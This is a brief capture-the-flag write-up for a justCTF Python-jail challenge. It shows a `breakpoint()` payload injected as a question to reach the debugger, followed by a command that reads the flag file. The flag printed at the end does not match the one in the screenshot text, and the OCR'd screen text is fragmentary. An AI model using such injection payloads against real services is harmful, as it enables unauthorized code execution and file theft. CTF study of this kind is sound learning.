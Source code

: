 # ECC for dummies
> Sometimes you have to force logic to do what you want it to do

## About the Challenge
We were given a server to connect and also the source code. So we can input 8 questions and we need to guess the cards too (You can download the source code [here](ecc_for_dummies.zip))


[Image extracted text: Hello
there
Would
you
like
to play
a little game?
have
written
values
(yes
no)
on
cards
am curious
if
you
are
able to
guess
which
values
are
You
can
ask
me
logic questions
know you
re smart ,
50
won
Lways be
honest
about
the
answers
No worries
will fool
you only
times
0 . Question:
test
Question
resolves
to:
True
1.Question:
test
Question
resolves
to:
True
2.Question:
test
Question
resolves
to:
False
3.Question:
test
Question
resolves
to:
True
4.Question:
test
Question
resolves
to:
True
5.Question:
test
Question
resolves
to:
True
6.Question:
test
Question
resolves
to:
False
7.Question:
test
Question
resolves
to:
True
You have
used
all
the questions
Now tell
me
one
by
one
what
have
written
down
on
the cards
Your response
test
Your
answer
did
not
include
all
the
cards
they]


## How to Solve?
To solve this chall, im using PyJail payload and I inputted it when the bot asked us to input the question

```
breakpoint()
```

After enterring Python debugger, run this command to obtain the flag

```
open("/jailed/flag.txt").read()
```


[Image extracted text: <string-(1)<module>()->None
(Pdb) open(" / jailed/
txt")
io.TextIOWrapper
name=
'jailed/flag.txt
mode=
r'
(Pdb) open(" / jailed/flag
txt").read()
justCTF{SOmeTimef_LOGic_ls_nt_Blnury_0101} '
(Pdb)
flag]


```
justCTF{S4nd_S0metim3s_It$_EvEn_$0lv4ble}
```